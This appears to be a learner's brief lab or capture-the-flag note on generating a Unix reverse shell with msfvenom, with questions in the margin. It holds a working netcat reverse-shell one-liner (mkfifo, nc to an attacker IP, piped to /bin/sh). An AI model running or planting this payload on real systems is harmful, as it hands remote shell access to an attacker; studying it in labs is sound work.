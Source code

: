 `msfvenom -p cmd/unix/reverse_netcat lhost=10.14.28.233 lport=4444 R`
`-p` payload
`R` export the payload in raw format (**?**)
``` payload
mkfifo /tmp/lzqp; nc 10.14.28.233 4444 0</tmp/lzqp | /bin/sh >/tmp/lzqp 2>&1; rm /tmp/lzqp
```
it should make a reverse shell (**why not simply tho?**)